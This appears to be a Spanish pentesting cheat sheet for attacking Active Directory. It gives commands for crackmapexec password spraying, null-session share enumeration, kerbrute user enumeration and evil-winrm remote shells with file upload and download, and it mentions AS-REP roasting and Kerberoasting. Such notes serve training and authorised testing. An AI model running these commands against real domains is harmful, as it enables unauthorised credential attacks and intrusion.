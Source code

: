 ```yaml
---
title: Active Directory
author: miguel3023
date: 2022-12-26
categories: [Notes]
tags: [Active Directory]
---
```

## CrackMapexec

Podemos ver información sobre el Windows ante el que nos estamos enfrentando de la siguiente forma:

```
❯ crackmapexec smb <ip>
```

También si estamos ante un DC (Domain Controller) podemos añadir al "/etc/hosts" algún dominio que hayamos encontrado con **crackmapexec** y también podemos añadirlos así

```
<ip vicitima>  dc dc.dominio dominio
```

Esto es para que ataques con kerberos, si está el kerberos expuesto, podamos efectuar ataques y no tengamos problema alguno.

También podemos enumerar por recursos compartidos a nivel de red, en este caso haciendo uso de un usuario "none". En ciertos casos puede funcionar

```
❯ crackmapexec smb <ip> -u "none" --shares
```

Podemos saber si credenciales que hayamos obtenido de alguna forma son válidas a nivel de sistema. Si como resultado nos pone un "+" es que son correctas

```
❯ crackmapexec smb <ip> -u 'user' -p 'password'
```

Podemos comprobar con "winrm" si un usuario hace parte del grupo "Remote Managment Users". Si nos pone "(Pwn3d!)" Entonces es que sí, claro, esto teniendo credenciales. Esto es gracias a que el puerto "5985" está abierto, que es el servicio de administración remota de windows. Luego nos podremos conectar con "evil-winrm" obteniendo una shell interactiva

```
❯ crackmapexec winrm <ip> -u 'user' -p 'password'
```

Con crackmapexec podemos por fuera bruta indicar una contraseña para que vaya probando con usuarios de un diccionario para ver si la contraseña es válida para cierto usuario probado en el diccionario

`--continue-on-success`: Es para que si encuentra una contraseña correcta para cierto usuario, no me pare el ataque sino que siga probando con los demás usuarios

```
❯ crackmapexec smb <ip> -u diccionario.txt -p 'password' --continue-on-success
```

## Smbmap

Si no funciona de la manera anterior también podemos usar **smbmap** para ver recursos compartidos a nivel de red haciendo uso de un usuario "none"

```
❯ smbmap -H <ip> -u none
```

## Smbclient

Podemos conectarnos a los recursos compartidos que hay a nivel de red para quizá poder descargarnos algún recurso interesante 

```
❯ smbclient //<ip>/<recurso compartido> -N
```


## Kerbrute

Con esta herramienta, gracias al puerto abierto de kerberos, podríamos enumerar usuarios en base a un dominio y la ip de la víctima. Esto en base a un diccionario que le especifiquemos 

```
❯ /opt/kerbrute/kerbrute userenum -d dominio.com --dc <ip victima> diccionario.txt
```

Recuerda que en entornos de Directorio Activo, si tienes usuarios potenciales, puedes efectuar un ASREPROAST attack. Esto lo puedes hacer con "impacket-GetNPUsers", que esta te pide el TGT y también tenemos el "impacket-GetUserSPNs" que es cuando ya tenemos credenciales válidas de un usuario

## Kerberoasting Attack

Si tenemos credenciales válidas, podemos efectuar este ataque. Esto en base al TGS (Ticket Granting Service) que luego será un hash y lo podremos crackear con fuerza bruta 

## Rpcclient

Con esta herramienta podemos conectarnos para ver cosas enumerar por cosas en la máquina victima

```
❯ rpcclient -U 'user%password' <ip>
```

`enumdomusers`: Podemos ver usuarios estando conectados 

`enumdomgroups`: Podemos enumerar por grupos estando conectados

`querydispinfo`: Podemos ver más información sobre los usuarios

`querygroupmem`: Podemos indicar el "rid" de un usuario que anteriormente descubrimos con "querydispinfo"

`queryuser`: Acá podemos colocar el "rid" en hexadecimal obtenido con querygroupmem para obtener info del usuario al cual le sacamos el "rid"

Ejemplo de "querygroupmem":

```
rpcclient $> querygroupmem 0x200 
```
También podemos con el parámetro "-c" ejecutar comandos del mismo sin tener que estar en una sesión

```
❯ rpcclient -U 'user%password' <ip> -c "enumdomusers"
```

## LdapSearch

Podemos ver información a base de credenciales que tengamos

`Nota`: Esto es extraido de [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ldap#ldapsearch)

```
❯ ldapsearch -x -H ldap://<ip> -D 'user@dominio.com' -w 'password' -b "DC=dominio,DC=com"
```

## Evil-winrm

Nos podemos conectar con credenciales a la máquina victima 

```
❯ evil-winrm -i <ip> -u "user" -p "passoword"
```

## Listando en Windows

Para ver los privilegios que tenemos como usuario en una máquina windows podemos hacer:

```
*Evil-WinRM* PS C:\Users\support\Documents> whoami /priv
```

Para ver los grupos a los que pertenecemos podemos hacer:

```
*Evil-WinRM* PS C:\Users\support\Desktop> net user <usuario>
```

Ó también podemos ver más a detalle los grupos así

```
*Evil-WinRM* PS C:\Users\support\Desktop> net group
```

Con evil-winrm podemos subirnos cosas a la máquina víctima (si tabulas y tienes la consola interactiva en el mismo directorio donde tienes el binario o fichero a subir, se te autocompletará)

```
*Evil-WinRM* PS C:\Users\support\Documents> upload <ruta de lo que nos queremos subir>

```

También te puedes descargar cosas con evil-winrm. Indicandole la ruta entera de lo que te quieres descargar y luego el nombre con el que te quieres descargar eso

```
*Evil-WinRM* PS C:\Users\support\Documents> download C:\Users\support\Documents\20221226133921_BloodHound.zip BH.zip
```

## Escaladas de privilegios

Hay un ataque para escalada de privilegios que puede ser [útil](https://miguel3023.github.io/posts/rbcd-attack/)

